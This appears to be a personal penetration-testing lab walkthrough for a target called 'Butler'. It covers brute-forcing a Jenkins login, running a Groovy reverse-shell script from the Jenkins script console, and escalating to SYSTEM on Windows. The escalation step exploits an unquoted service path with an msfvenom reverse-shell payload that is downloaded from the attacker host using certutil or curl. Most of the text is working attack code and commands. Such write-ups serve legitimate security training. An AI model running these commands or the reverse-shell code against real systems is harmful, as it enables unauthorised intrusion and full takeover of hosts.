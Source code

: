 # BUTLER - 192.168.176.134
nmap showed TCP port 7680, 8080 Open
7680 was a 0  
8080 is a Jenkins server  
Browsing to website only shows jenkins dashboard  
Nikto scan `nikto -h 192.168.176.134 -p 8080`  
Brute force login for jenkins with Burpsuite
- Intruder --> Payload ClusterBomb  
Login was  jenkins:jenkins
Once logged in to jenkins, there is a  script area that accepts Groovy scripts.  
Founda  groovy exploit here : https://shahjerry33.medium.com/jenkins-exploitation-is-everything-2c61c5ae8377  

``` 
String host="192.168.176.128";
int port=9999;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close(); 
```  

This gave me a shell, with username Butler.  Butler is a local admin on hostname butler.  
net localgroup administrators  

## Windows Elevation   
From here, started enumerating with the winpeas script.  
```
started web server on kali : `python3 -m http.server`   
certutil.exe -urlcache -f http://192.168.176.128:8000/winPEASx64.exe winpeas.exe
move winpeas.exe c:\users\butler\downloads\
c:\users\butler\downloads\winpeas.exe
```

Found **UNQUOTED SERVICE PATHS** `cmd /c wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """`  
Service is : C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe        
sc query WiseBootAssistant  

Created payload `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.176.128 LPORT=4446 -f exe-service -o Program.exe`  
start listener on attacker box : `nc -lvp 4446`
downloaded payload from target : `certutil.exe -urlcache -f http://192.168.176.128:8000/Program.exe Program.exe`
optional download syntax : `curl http://192.168.176.128:8000/Program.exe -o Program.exe`
Put payload at root of C:\
The payload  could optionally be called, wise.exe, and placed under wise folder.
sc stop WiseBootAssistant  
sc start WiseBootAssistant  
**BOOM** we are system.  

# BlackPearl - 192.168.176.135



